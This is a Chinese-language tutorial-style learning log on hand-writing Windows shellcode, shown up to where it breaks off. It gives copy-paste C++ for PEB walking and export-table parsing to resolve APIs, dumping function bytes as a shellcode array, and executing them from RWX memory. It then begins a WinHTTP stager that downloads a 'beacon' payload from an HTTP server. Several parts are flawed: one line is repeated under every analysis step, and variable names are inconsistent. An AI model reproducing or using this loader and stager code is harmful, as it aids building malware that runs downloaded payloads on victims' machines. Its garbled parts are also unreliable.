# 零基础shellcode

**！！ 免责声明！！** **_我是一个零代码基础的人，这个文章是在学习、实际操作 作者huoji 于2022年发布的文章《填鸭式shellcode编写教程》的一个学习记录，这里面记录我对这个教程的理解和疑惑！！！_**
简单说一下shellcode是啥，Shellcode 本质上是一段二进制机器指令，直接是一段“已经编译好的指令”，塞进内存就执行。
他就是一个是没有任何系统支持的裸奔代码，所以限制很多：

- **1**、无法依赖 PE 结构、没有重定位表。由于现在系统都有 ASLR ，系统每次运行地址都变，因此不能写死地址，否则运行一次就崩
- **2**、没有 .data / .rdata，不能用全局变量，只能用栈
- **3**.没有导入表（IAT），不能直接调用 API

---

- **了解一下恶意代码流程：**
  双击 exe
  <br>
  ↓
  <br>
  CreateProcess

  ↓

  内核创建 EPROCESS

  ↓

  初始化进程

  ↓
  创建 PEB
  ↓
  加载 DLL
  ↓
  创建线程（TEB）
  ↓
  **线程开始执行**
  ↓
  （需要系统功能）
  ↓
  访问 TEB（获取 PEB 地址）
  ↓
  访问 PEB（拿模块信息）
  ↓
  找到 DLL（kernel32.dll）
  ↓
  解析导出表（手动解析GetProcAddress，再用它找其他 API如 VirtualAlloc）
  ↓
  找到 API
  ↓
  调用 API
  ↓
  如果涉及安全操作则系统检查 Token
  ↓
  执行成功 / 失败

根据以上，我们来解决重定向这个问题，思路就是：

- **第一步**: 获取kernel32的地址；
- **第二步**: 解析导出表；
- **第三步**：通过导出表的名字定位到函数,拿到最关键的两个API（getprocessaddress、loadlibrary），进而从手动找地址 迈向 动态解析API、随便调用的稳定且可复用的工业化产品。

---

ok，粗略捋清思路就开始吧！
首先打开VS，选择控制台应用：

由于我们写的是32位的shellcode，这里就选择x86，如下图：

准备好后，正式开始！
ps：作为参考，我会在全文最后放出完整代码

---

## 一、编写shellcode

### 解决重定向第一步: 获取kernel32的地址

复制粘贴这一坨东西，如下图：

这坨代码干了3件事情：

1. 找到 PEB（进程信息总表）
2. 从 PEB 找到 LDR（模块列表）
3. 从 LDR 找到 kernel32.dll

简单总结一下就是：它目的是在内存里找到 kernel32.dll 的地址，为啥找这个？因为后面要用：LoadLibrary、GetProcAddress，而这两个函数都在 kernel32.dll 里！

```
#include <iostream>
#include <Windows.h>
#define DEREF( name )*(UINT_PTR *)(name)
typedef struct _UNICODE_STR
{
    USHORT Length;
    USHORT MaximumLength;
    PWSTR pBuffer;
} UNICODE_STR, * PUNICODE_STR;

// WinDbg> dt -v ntdll!_PEB_LDR_DATA
typedef struct _PEB_LDR_DATA //, 7 elements, 0x28 bytes
{
    DWORD dwLength;
    DWORD dwInitialized;
    LPVOID lpSsHandle;
    LIST_ENTRY InLoadOrderModuleList;
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
    LPVOID lpEntryInProgress;
} PEB_LDR_DATA, * PPEB_LDR_DATA;

// WinDbg> dt -v ntdll!_PEB_FREE_BLOCK
typedef struct _PEB_FREE_BLOCK // 2 elements, 0x8 bytes
{
    struct _PEB_FREE_BLOCK* pNext;
    DWORD dwSize;
} PEB_FREE_BLOCK, * PPEB_FREE_BLOCK;


// struct _PEB is defined in Winternl.h but it is incomplete
// WinDbg> dt -v ntdll!_PEB
typedef struct __PEB // 65 elements, 0x210 bytes
{
    BYTE bInheritedAddressSpace;
    BYTE bReadImageFileExecOptions;
    BYTE bBeingDebugged;
    BYTE bSpareBool;
    LPVOID lpMutant;
    LPVOID lpImageBaseAddress;
    PPEB_LDR_DATA pLdr;
    LPVOID lpProcessParameters;
    LPVOID lpSubSystemData;
    LPVOID lpProcessHeap;
    PRTL_CRITICAL_SECTION pFastPebLock;
    LPVOID lpFastPebLockRoutine;
    LPVOID lpFastPebUnlockRoutine;
    DWORD dwEnvironmentUpdateCount;
    LPVOID lpKernelCallbackTable;
    DWORD dwSystemReserved;
    DWORD dwAtlThunkSListPtr32;
    PPEB_FREE_BLOCK pFreeList;
    DWORD dwTlsExpansionCounter;
    LPVOID lpTlsBitmap;
    DWORD dwTlsBitmapBits[2];
    LPVOID lpReadOnlySharedMemoryBase;
    LPVOID lpReadOnlySharedMemoryHeap;
    LPVOID lpReadOnlyStaticServerData;
    LPVOID lpAnsiCodePageData;
    LPVOID lpOemCodePageData;
    LPVOID lpUnicodeCaseTableData;
    DWORD dwNumberOfProcessors;
    DWORD dwNtGlobalFlag;
    LARGE_INTEGER liCriticalSectionTimeout;
    DWORD dwHeapSegmentReserve;
    DWORD dwHeapSegmentCommit;
    DWORD dwHeapDeCommitTotalFreeThreshold;
    DWORD dwHeapDeCommitFreeBlockThreshold;
    DWORD dwNumberOfHeaps;
    DWORD dwMaximumNumberOfHeaps;
    LPVOID lpProcessHeaps;
    LPVOID lpGdiSharedHandleTable;
    LPVOID lpProcessStarterHelper;
    DWORD dwGdiDCAttributeList;
    LPVOID lpLoaderLock;
    DWORD dwOSMajorVersion;
    DWORD dwOSMinorVersion;
    WORD wOSBuildNumber;
    WORD wOSCSDVersion;
    DWORD dwOSPlatformId;
    DWORD dwImageSubsystem;
    DWORD dwImageSubsystemMajorVersion;
    DWORD dwImageSubsystemMinorVersion;
    DWORD dwImageProcessAffinityMask;
    DWORD dwGdiHandleBuffer[34];
    LPVOID lpPostProcessInitRoutine;
    LPVOID lpTlsExpansionBitmap;
    DWORD dwTlsExpansionBitmapBits[32];
    DWORD dwSessionId;
    ULARGE_INTEGER liAppCompatFlags;
    ULARGE_INTEGER liAppCompatFlagsUser;
    LPVOID lppShimData;
    LPVOID lpAppCompatInfo;
    UNICODE_STR usCSDVersion;
    LPVOID lpActivationContextData;
    LPVOID lpProcessAssemblyStorageMap;
    LPVOID lpSystemDefaultActivationContextData;
    LPVOID lpSystemAssemblyStorageMap;
    DWORD dwMinimumStackCommit;
} _PEB;

typedef struct _LDR_DATA_TABLE_ENTRY
{
    //LIST_ENTRY InLoadOrderLinks; // As we search from PPEB_LDR_DATA->InMemoryOrderModuleList we dont use the first entry.
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
    PVOID DllBase;
    PVOID EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STR FullDllName;
    UNICODE_STR BaseDllName;
    ULONG Flags;
    SHORT LoadCount;
    SHORT TlsIndex;
    LIST_ENTRY HashTableEntry;
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;

void shellcode_start() {
    //代码不用理解,可以直接复制粘贴.
    uint64_t base_address = NULL;
    //0.读取fs,找到peb
    base_address = __readfsdword(0x30);
    unsigned short m_counter;
    uint64_t ldr_table;
    uint64_t dll_name;
    uint64_t hash_name;
    uint64_t kernel32_base = 0;

    base_address = (uint64_t)((_PEB*)base_address)->pLdr;
    ldr_table =
        (uint64_t)((PPEB_LDR_DATA)base_address)->InMemoryOrderModuleList.Flink;
    //1. 通过peb里面的LDR找到kernel32的地址
    while (ldr_table) {
        dll_name =
            (uint64_t)((PLDR_DATA_TABLE_ENTRY)ldr_table)->BaseDllName.pBuffer;
        m_counter = ((PLDR_DATA_TABLE_ENTRY)ldr_table)->BaseDllName.Length;
        hash_name = 0;
        do {
            hash_name = _rotr((unsigned long)hash_name, 13);
            if (*((unsigned char*)dll_name) >= 'a')
                hash_name += *((unsigned char*)dll_name) - 0x20;
            else
                hash_name += *((unsigned char*)dll_name);
            dll_name++;
        } while (--m_counter);
        //hash name其实是基于dll_name的因为我们也不想取到其他的莫名其妙的东西,做个简单地hash会准确很多
        //如果你不想用hashname,那么你可以printf("%wZ",dll_name);观察一下dll name自己想一下新的思路
        if ((unsigned long)hash_name == 0x6A4ABC5B) {
            //这就是kernel.dll的地址了
            kenrle32_base = (uint64_t)((PLDR_DATA_TABLE_ENTRY)ldr_table)->DllBase;
            break;
        }
        ldr_table = DEREF(ldr_table);
        if (kenrle32_base != 0) {
            //找到了退出
            break;
        }
    }
    if (kenrle32_base == 0) {
        __debugbreak();
    }
    printf("kernel32: %p /n", kenrle32_base);
}

int main()
{
    shellcode_start();
    std::cout << "Hello World!/n";
    system("pause");
}

```

#### 逐句分析环节

不懂具体啥意思?行，我们逐句看：
**struct结构**
这些 struct 是干嘛的？这些是 Windows 内部结构体（相当于“数据说明书”）,因为 shellcode 没 API (不能GetModuleHandle、EnumProcessModules)可用，所以只能自己解析内存结构

```
typedef struct _PEB
typedef struct _PEB_LDR_DATA
typedef struct _LDR_DATA_TABLE_ENTRY
```

**接着找到PEB**

```
base_address = __readfsdword(0x30);
```

**找到LDR**
从 PEB 找 LDR（当前进程加载的所有 DLL，如kernel32.dll、ntdll.dll、user32.dll）

```
base_address = __readfsdword(0x30);
```

**计算 hash**
为什么不直接写字符串？因为 shellcode 不能用字符串（会进 .rdata），且容易被检测

```
base_address = __readfsdword(0x30);
```

**匹配 kernel32**

```
base_address = __readfsdword(0x30);
```

**拿到kernel32.dll 在内存中的地址**
拿到地址（最关键），这就是kernel32.dll 在内存中的地址

```
base_address = __readfsdword(0x30);
```

**继续遍历**

```
base_address = __readfsdword(0x30);
```

**输出kernel32.dll 的内存地址**

```
base_address = __readfsdword(0x30);
```

总结一下就是：
找到系统“进程信息入口”（PEB） ——> 打开“已加载DLL列表” ——> 一个个翻 ——> 找到 kernel32.dll ——> 记住它的地址

好，现在点击运行，看看情况怎么样

弹出了这个，完美找到了kernel32的地址了！

如果担心有问题，可以检查一下，查看模块列表,确认一下是否有误

没问题！


### 解决重定向第二步: 解析导出表

目前我们已经找到了kernel32.dll，接下来就要从这个dll里面找到出函数地址，
dll本质是一个pe文件，其结构为：
`DOS头` → `NT头` →` 数据目录` → `导出表`

所以我们要做的就是：

- 1.获取PE头（统称，其实就是DOS头、 NT头）
- 2.通过PE头获取导出表
- 3.通过导出表获取到函数

以下代码贴在刚刚你的printf后,同时删掉之前的printf

```
typedef HMODULE(WINAPI* GetProcAddressT)(_In_ HMODULE hModule, _In_ LPCSTR lpProcName);
    typedef HMODULE(WINAPI* LoadLibraryAT)(_In_ LPCSTR lpLibFileName);
    GetProcAddressT fnGetProcAddress = NULL;
    LoadLibraryAT fnLoadlibrary = NULL;

    //别在意这边的大小写驼峰混乱,因为是两套代码拼接的,懒得改了....
    UINT_PTR uiAddressArray = NULL;
    UINT_PTR uiNameArray = NULL;
    UINT_PTR uiNameOrdinals = NULL;
    PIMAGE_NT_HEADERS32 pNtHeaders32 = NULL;
    PIMAGE_NT_HEADERS64 pNtHeaders64 = NULL;
    PIMAGE_DATA_DIRECTORY pDataDirectory = NULL;
    PIMAGE_EXPORT_DIRECTORY pExportDirectory = NULL;
    // 解析PE头
    pNtHeaders32 = (PIMAGE_NT_HEADERS32)(kenrle32_base + ((PIMAGE_DOS_HEADER)kenrle32_base)->e_lfanew);
    pNtHeaders64 = (PIMAGE_NT_HEADERS64)(kenrle32_base + ((PIMAGE_DOS_HEADER)kenrle32_base)->e_lfanew);
    // 拿到导出表
    pDataDirectory = (PIMAGE_DATA_DIRECTORY)&pNtHeaders32->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];
    // 遍历导出表
    pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(kenrle32_base + pDataDirectory->VirtualAddress);
    uiAddressArray = (kenrle32_base + pExportDirectory->AddressOfFunctions);
    uiNameArray = (kenrle32_base + pExportDirectory->AddressOfNames);
    uiNameOrdinals = (kenrle32_base + pExportDirectory->AddressOfNameOrdinals);

    unsigned long dwCounter = pExportDirectory->NumberOfNames;

    char str1[] = { 'G', 'e', 't', 'P', 'r', 'o', 'c', 'A', 'd', 'd', 'r', 'e', 's', 's', '/0' };
    char str2[] = { 'L','o','a','d','L','i','b','r','a','r','y','A','/0' };
    while (dwCounter--)
    {
        char* cpExportedFunctionName = (char*)(kenrle32_base + DEREF_32(uiNameArray));
        char* matchPtr = &str1[0];
        int ret = 0;
        while (!(ret = *cpExportedFunctionName - *matchPtr) && *cpExportedFunctionName)
        {
            cpExportedFunctionName++;
            matchPtr++;
        }
        if (ret == 0)
        {
            uiAddressArray += (DEREF_16(uiNameOrdinals) * sizeof(unsigned long));
            fnGetProcAddress = (GetProcAddressT)(kenrle32_base + DEREF_32(uiAddressArray));
        }
        else {
            cpExportedFunctionName = (char*)(kenrle32_base + DEREF_32(uiNameArray));
            char* matchPtr = &str2[0];
            ret = 0;
            while (!(ret = *cpExportedFunctionName - *matchPtr) && *cpExportedFunctionName)
            {
                cpExportedFunctionName++;
                matchPtr++;
            }
            if (ret == 0)
            {
                uiAddressArray += (DEREF_16(uiNameOrdinals) * sizeof(unsigned long));
                fnLoadlibrary = (LoadLibraryAT)(kenrle32_base + DEREF_32(uiAddressArray));
            }
        }
        if (fnLoadlibrary && fnGetProcAddress) {
            break;
        }
        uiNameArray += sizeof(unsigned long);
        uiNameOrdinals += sizeof(unsigned short);
    }
    if (fnLoadlibrary == NULL || fnGetProcAddress == NULL) {
        __debugbreak();
    }
    printf("kernel32: %p fnGetProcAddress :%p/n", fnLoadlibrary, fnGetProcAddress);
```

看不懂这一坨代码他干了啥？那咱们继续一句一句解析！

#### 逐句分析环节

**找到 NT 头**
这里e_lfanew = 偏移

```
pNtHeaders = base + e_lfanew;
```

**找到导出表**
里面包含了：函数地址表AddressOfFunctions、函数名字表AddressOfNames、序号表AddressOfNameOrdinals

```
DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT]
```

**遍历函数**

```
while (dwCounter--)
```

每次取一个函数名字：

```
char* name = ...
```

**找目标函数**
对比字符串

```
"GetProcAddress"
"LoadLibraryA"
```

**找到后通过名字找到地址**
名字 → ordinal → 地址
最终得到两个非常重要的函数指针：fnGetProcAddress、fnLoadlibrary

ok,回到我们的实际操作。
把上面的代码贴替换掉printf


如果遇到如下报错，是以为没有声明，加个声明就能解决
`#define DEREF_32( name )*(unsigned long *)(name)`
`#define DEREF_16( name )*(unsigned short *)(name)`


现在来运行一下看看


没错吧！运行结构跟上面分析的一直：找到了函数指针fnGetProcAddress的地址


### 解决重定向第三步:进一步升级，动态解析+可复用

通过导出表的名字定位到函数,拿到最关键的两个API（getprocessaddress、loadlibrary），进而从手动找地址 迈向 动态解析API、随便调用的稳定且可复用的工业化产品。

现在试着弹出第一个hello world的信息库吧！
复制粘贴下面这坨代码，然后运行

```
   if (fnLoadlibrary == NULL || fnGetProcAddress == NULL) {
        __debugbreak();
    }
    char str3[] = { 'U','S','E','R','3','2','.','d','l','l','/0' };
    char str4[] = { 'M','e','s','s','a','g','e','B','o','x','A','/0' };
    char str5[] = { 'h','e','l','l','o',' ','w','o','r','l','d','/0' };
    typedef int (WINAPI* MessageBoxAT)(_In_opt_ HWND hWnd,_In_opt_ LPCSTR lpText,_In_opt_ LPCSTR lpCaption,_In_ UINT uType);
    MessageBoxAT pMessageBoxA = (MessageBoxAT)fnGetProcAddress(fnLoadlibrary(str3), str4);
    if (pMessageBoxA == NULL) {
        __debugbreak();
    }
    pMessageBoxA(NULL, str5, NULL ,NULL);
```

#### 逐句分析环节

**调用 MessageBox**
第二步的时候已经有了LoadLibraryA、GetProcAddress

```
LoadLibrary("user32.dll")
GetProcAddress("MessageBoxA")
```

调用

```
MessageBoxA(...)
```

**_?字符串为啥要写成这样？_**
因为user32.dll" 会进 .rdata，而shellcode 访问不到

```
char str3[] = { 'U','S','E','R','3','2','.','d','l','l','/0' };
```

ok，回到操作：
复制粘贴上面那坨代码


点击运行，发现报错了！可能是函数地址取错

我们去看看getprocessaddress、loadlibrary是不是出了什么问题
点击下方局部变量板块

找到getprocessaddress、loadlibrary，分别鼠标右键转到反汇编，如下图：
看fngetprocessaddress转到反汇编如下：
75056780 mov edi,edi
是正常的

看fnloadlibrary转到反汇编如下：
750DA39F inc edx

是这里出现了问题！
为啥？

1. 在 Windows 里，一个正常函数开头通常是

```
push rbp
mov rbp, rsp
sub rsp, xxx
```

或

```
mov r10, rcx
mov eax, xxx
syscall
```

或

```
jmp xxx   ; 跳板/IAT
```

2. 函数之间通常会有int 3

而fnloadlibrary它没有这些函数入口特征，是它出错了

这两个关键的函数指针一对一错：GetProcAddress是正确的，而LoadLibrary是错误的。

那么说明不是我们的整体逻辑出错，如果是PEB、kernel32地址、PE解析出错的话那两个函数都会错

因此问题是出在取函数地址的这个环节上

而只有这一段在决定函数地址

```
uiAddressArray
uiNameArray
uiNameOrdinals
```

问题就出现在这里,地址数据第二次又加了一次，

```
uiAddressArray += (DEREF_16(uiNameOrdinals) * sizeof(unsigned long));
fnLoadlibrary = (LoadLibraryAT)(kenrle32_base + DEREF_32(uiAddressArray));
```

替换一下出错的那部分代码

```
        if (ret == 0)
        {
            uiAddressArray += (DEREF_16(uiNameOrdinals) * sizeof(unsigned long));
            fnGetProcAddress = (GetProcAddressT)(kernel32_base + DEREF_32(uiAddressArray));
        }
        else {
            cpExportedFunctionName = (char*)(kernel32_base + DEREF_32(uiNameArray));
            char* matchPtr = &str2[0];
            ret = 0;
            while (!(ret = *cpExportedFunctionName - *matchPtr) && *cpExportedFunctionName)
            {
                cpExportedFunctionName++;
                matchPtr++;
            }
            if (ret == 0)
            {
                uiAddressArray = (kernel32_base + pExportDirectory->AddressOfFunctions);
                uiAddressArray += (DEREF_16(uiNameOrdinals) * sizeof(unsigned long));
                fnLoadlibrary = (LoadLibraryAT)(kernel32_base + DEREF_32(uiAddressArray));
            }
        }
```

关键变化：函数地址 = 起点 + 当前索引偏移
每次都重新从“函数表起点”开始算，这样就不会产生累加偏移指到乱七八糟的地方了。

如图

修复完毕，点击运行，成功解决


### 现在实现shellcode吧！

现在我们还停留在function,而我们的目标是编写shellcode
所以我们要把它变成shellcode,
在shellcode_start的函数下面放一个shellcode_end:

```
void shellcode_end() {
    __debugbreak();
}
```


接着在main里面去掉之前的shellcode_start,生成模式从debug改成release



然后复制下面这坨代码:

```
    const auto start_address = (uint32_t)shellcode_start;
    const auto shellcode_size = (uint32_t)shellcode_end - (uint32_t)start_address;
    for (size_t i = 0; i < shellcode_size; i++)
    {
        auto sig_code = ((unsigned char*)start_address)[i];
        printf(",0x%02X", sig_code);
    }
```

#### 逐句分析环节

这坨代码啥意思？

**确定 shellcode 范围**

```
void shellcode_start() { ... }

void shellcode_end() {
    __debugbreak();
}
```

**获取函数地址（关键）**

```
const auto start_address = (uint32_t)shellcode_start;
const auto shellcode_size = (uint32_t)shellcode_end - (uint32_t)start_address;
```

**读取机器码**

```
for (size_t i = 0; i < shellcode_size; i++)
{
    auto sig_code = ((unsigned char*)start_address)[i];
    printf(",0x%02X", sig_code);
}
```

回到操作，把上面那坨代码复制粘贴进去后，

由于VS会优化代码，增加security cookie
而前者会,后者会让你的shellcode出现空指针异常(因为security cookie是全局变量,但是我们shellcode压根不能用)
所以你必须关掉它:
关闭security cookie:
在菜单栏点击`项目`，点击`属性`会跳出属性页弹框

点击`>c/c++`,找到`所有选项`,关闭安全检查

关闭优化

这是配置release的,记住！生成shellcode的时候***不能用debug生成***,否则你的函数地址会是错的！debug的gate函数而不是真正的函数!
运行后，可以看到这么一大坨东西！你已经成功一大半了宝贝！

现在复制粘贴下面这坨代码，然后再复制粘贴上面图片运行后弹出的这一大串数字（shellcode数组）到`char shellcode[] = { .... };`的括号{}里面，用于内存加载执行

```
    char shellcode[] = { .... };
    PVOID p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(p, shellcode, sizeof(shellcode));
    typedef void(__stdcall* door_code) ();
    door_code run_shellcode = (door_code)p;
    run_shellcode();
```

等会儿，这段啥意思？

#### 逐句分析

**得到 shellcode数组**

```
char shellcode[] = {
    0x55,0x8B,0xEC...
};
```

申请可执行内存

```
PVOID p = VirtualAlloc(
    NULL,
    sizeof(shellcode),
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);
```

复制shellcode

```
memcpy(p, shellcode, sizeof(shellcode));
```

强行当函数执行

```
typedef void(__stdcall* door_code) ();
door_code run_shellcode = (door_code)p;
run_shellcode();
```

ok，回到操作，复制粘贴上面那坨东西，注意别把前面的逗号也复制粘贴了

点击运行

锵锵锵锵！shellcode的hell world大功告成！！


---

## 二、payload下载

现在咱们开始进入真正的实战型 shellcode核心能力：下载 payload！
首先准备一个http服务器,这里我使用了hfs

### 准备结构体（初始化），进行URL解析

将下方这坨代码贴在 _拿到 fnGetProcAddress / fnLoadLibrary_ 之后
_调用 WinHttpCrackUrl_ 之前

```
 typedef struct _URL_INFO
    {
        WCHAR szScheme[36];
        WCHAR szHostName[36];
        WCHAR szUserName[36];
        WCHAR szPassword[36];
        WCHAR szUrlPath[36];
        WCHAR szExtraInfo[36];
    }URL_INFO, * PURL_INFO;

    _URL_INFO url = { 0 };
    URL_COMPONENTSW lpUrlComponents = { 0 };
    lpUrlComponents.dwStructSize = sizeof(lpUrlComponents);
    lpUrlComponents.lpszExtraInfo = url.szExtraInfo;
    lpUrlComponents.lpszHostName = url.szHostName;
    lpUrlComponents.lpszPassword = url.szPassword;
    lpUrlComponents.lpszScheme = url.szScheme;
    lpUrlComponents.lpszUrlPath = url.szUrlPath;
    lpUrlComponents.lpszUserName = url.szUserName;

    lpUrlComponents.dwExtraInfoLength =
        lpUrlComponents.dwHostNameLength =
        lpUrlComponents.dwPasswordLength =
        lpUrlComponents.dwSchemeLength =
        lpUrlComponents.dwUrlPathLength =
        lpUrlComponents.dwUserNameLength = 36;
```

但是这里我们需要对原教程的代码做一个改正，

```
    _URL_INFO url = { 0 };
    URL_COMPONENTSW lpUrlComponents = { 0 };
```

要改为：

```
    _URL_INFO url
    URL_COMPONENTSW lpUrlComponents
```

why?因为`= {0} `会让编译器自动生成memset，进而崩坏无法运行。


#### 逐句分析环节

上面这坨代码到底在干嘛？——**_给 WinHttpCrackUrl 准备“接收解析结果的容器”_**
why？
因为 Windows API 的设计就是:
“我不帮你分配内存，你自己准备好，我帮你把解析完URL的结果填入准备好的内存里”
举个例子:
你调用：`WinHttpCrackUrl("http://127.0.0.1/duck", ...)`
解析结果放哪？

```
Host = 127.0.0.1
Path = /duck
```

系统不知道放哪！！！
所以你必须告诉它：“把 HostName 写到这个 buffer 里”,即

```
lpUrlComponents.lpszHostName = url.szHostName;
```

关系图如下：
WinHttpCrackUrl()
↓
解析URL
↓
把结果写进 URL_COMPONENTSW
↓
URL_COMPONENTSW 指向 /\_URL_INFO

### 加载 WinHTTP

回到操作

把这坨东西贴在上面那坨代码后面,假设后续的beacon的路径是http://127.0.0.1/duck，(这个写你自己的地址)
它在干什么？

1. 加载 winhttp.dll
2. 找 WinHttpOpen 地址
3. 转成函数
4. 保存到 fnWinHttpOpen

```
typedef HMODULE(WINAPI* WinHttpCrackUrlT)(_In_reads_(dwUrlLength) LPCWSTR pwszUrl, _In_ DWORD dwUrlLength, _In_ DWORD dwFlags, _Inout_ LPURL_COMPONENTS lpUrlComponents);
    typedef HINTERNET(WINAPI* WinHttpOpenT)(_In_opt_z_ LPCWSTR pszAgentW,
        _In_ DWORD dwAccessType,
        _In_opt_z_ LPCWSTR pszProxyW,
        _In_opt_z_ LPCWSTR pszProxyBypassW,
        _In_ DWORD dwFlags);
    typedef HINTERNET(WINAPI* WinHttpConnectT)(
        IN HINTERNET hSession,
        IN LPCWSTR pswzServerName,
        IN INTERNET_PORT nServerPort,
        IN DWORD dwReserved);
    typedef HINTERNET(WINAPI* WinHttpOpenRequestT)(
        IN HINTERNET hConnect,
        IN LPCWSTR pwszVerb,
        IN LPCWSTR pwszObjectName,
        IN LPCWSTR pwszVersion,
        IN LPCWSTR pwszReferrer OPTIONAL,
        IN LPCWSTR FAR* ppwszAcceptTypes OPTIONAL,
        IN DWORD dwFlags);
    typedef BOOL(WINAPI* WinHttpSendRequestT)(
        IN HINTERNET hRequest,
        _In_reads_opt_(dwHeadersLength) LPCWSTR lpszHeaders,
        IN DWORD dwHeadersLength,
        _In_reads_bytes_opt_(dwOptionalLength) LPVOID lpOptional,
        IN DWORD dwOptionalLength,
        IN DWORD dwTotalLength,
        IN DWORD_PTR dwContext);
    typedef BOOL(WINAPI* WinHttpReceiveResponseT)(
        IN HINTERNET hRequest,
        IN LPVOID lpReserved);
    typedef BOOL(WINAPI* WinHttpQueryHeadersT)(
        IN     HINTERNET hRequest,
        IN     DWORD     dwInfoLevel,
        IN     LPCWSTR   pwszName OPTIONAL,
        _Out_writes_bytes_to_opt_(*lpdwBufferLength, *lpdwBufferLength) __out_data_source(NETWORK) LPVOID lpBuffer,
        IN OUT LPDWORD   lpdwBufferLength,
        IN OUT LPDWORD   lpdwIndex OPTIONAL);
    typedef BOOL(WINAPI* WinHttpCloseHandleT)(
        IN HINTERNET hInternet);
    constexpr char strWinHttpCrackUrl[] = "WinHttpCrackUrl";
    constexpr char strWinHttpOpen[] = "WinHttpOpen";
    constexpr char strWinHttpConnect[] = "WinHttpConnect";
    constexpr char strWinHttpOpenRequest[] = "WinHttpOpenRequest";
    constexpr char strWinHttpSendRequest[] = "WinHttpSendRequest";
    constexpr char strWinHttpReceiveResponse[] = "WinHttpReceiveResponse";
    constexpr char strWinHttpQueryHeaders[] = "WinHttpQueryHeaders";
    constexpr char strWinHttpCloseHandle[] = "WinHttpCloseHandle";
    constexpr char strWinhttp[] = "Winhttp.dll";
    constexpr wchar_t strUrl[] = L"http://127.0.0.1/duck";
    constexpr wchar_t strHead[] = L"HEAD";
    constexpr wchar_t strHTTP[] = L"HTTP/1.1";
    constexpr wchar_t strGet[] = L"GET";
```



#### 逐句分析环节

typedef = 定义函数形状
字符串 = 找函数名字
GetProcAddress = 拿函数地址
函数指针 = 调用 API

这些 typedef 分别是什么？
解析 URL

```
WinHttpCrackUrlT
```

创建“会话”（类似打开浏览器）

```
WinHttpOpenT
```

连接服务器（IP + 端口）

```
WinHttpConnectT
```

创建 HTTP 请求（GET / HEAD）

```
WinHttpOpenRequestT
```

发送请求

```
WinHttpSendRequestT
```

接收响应

```
WinHttpReceiveResponseT
```

读取响应头（比如 Content-Length）

```
WinHttpQueryHeadersT
```

关闭连接

```
WinHttpCloseHandleT
```

ok，回到操作，我们继续粘贴复制

### 准备 API

```
WinHttpCrackUrlT fnWinHttpCrackUrl = (WinHttpCrackUrlT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpCrackUrl);
    WinHttpOpenT fnWinHttpOpen = (WinHttpOpenT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpOpen);
    WinHttpConnectT fnWinHttpConnect = (WinHttpConnectT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpConnect);
    WinHttpOpenRequestT fnWinHttpOpenRequest = (WinHttpOpenRequestT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpOpenRequest);
    WinHttpSendRequestT fnWinHttpSendRequest = (WinHttpSendRequestT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpSendRequest);
    WinHttpReceiveResponseT fnWinHttpReceiveResponse = (WinHttpReceiveResponseT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpReceiveResponse);
    WinHttpQueryHeadersT fnWinHttpQueryHeaders = (WinHttpQueryHeadersT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpQueryHeaders);
    WinHttpCloseHandleT fnWinHttpCloseHandle = (WinHttpCloseHandleT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpCloseHandle);
```

#### 分析

| API                    | 作用     |
| ---------------------- | -------- |
| WinHttpOpen            | 创建会话 |
| WinHttpConnect         | 建立连接 |
| WinHttpOpenRequest     | 创建请求 |
| WinHttpSendRequest     | 发送     |
| WinHttpReceiveResponse | 收响应   |
| WinHttpQueryHeaders    | 查header |
| WinHttpReadData        | 读数据   |

### 创建会话

创建会话时候要注意如下几点:

fnWinHttpCrackUrl这个API的最后一个参数是输出,是系统的结构,但里面的指针是你提供的内存,指向你自己的 buffer
fnWinHttpOpen可以有两个选项：一个是WINHTTP_ACCESS_TYPE_NO_PROXY代表不走代理；另外一个是走代理,走代理的话可以先设置前置代理再做,这个算home work
lpUrlComponents的URL上限被之前定义了,是32字节,超过会溢出,可以自己调整.但是不要太大,会爆栈
以下是代码

```
 // 创建一个会话
    fnWinHttpCrackUrl(strUrl, 0, ICU_ESCAPE, &lpUrlComponents);
    HINTERNET hSession = fnWinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_NO_PROXY, NULL, NULL, 0);
    DWORD dwReadBytes, dwSizeDW = sizeof(dwSizeDW), dwContentSize, dwIndex = 0;
```

打开会话
`hSession = fnWinHttpOpen(...)`

### 第一次请求（HEAD）,获取下载大小

为什么要 HEAD？因为你要先问：这个文件多大？知道文件大小,这样才能分配好内存。

```
// 创建一个连接
    HINTERNET hConnect = fnWinHttpConnect(hSession, lpUrlComponents.lpszHostName, lpUrlComponents.nPort, 0);
    // 创建一个请求，先查询内容的大小
    HINTERNET hRequest = fnWinHttpOpenRequest(hConnect, strHead, lpUrlComponents.lpszUrlPath, strHTTP, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_REFRESH);
    fnWinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    fnWinHttpReceiveResponse(hRequest, 0);
    fnWinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CONTENT_LENGTH | WINHTTP_QUERY_FLAG_NUMBER, NULL, &dwContentSize, &dwSizeDW, &dwIndex);
    fnWinHttpCloseHandle(hRequest);

```

发送请求
`WinHttpSendRequest`
`WinHttpReceiveResponse`
连接服务器
`hConnect = fnWinHttpConnect(...)`

### 获取数据

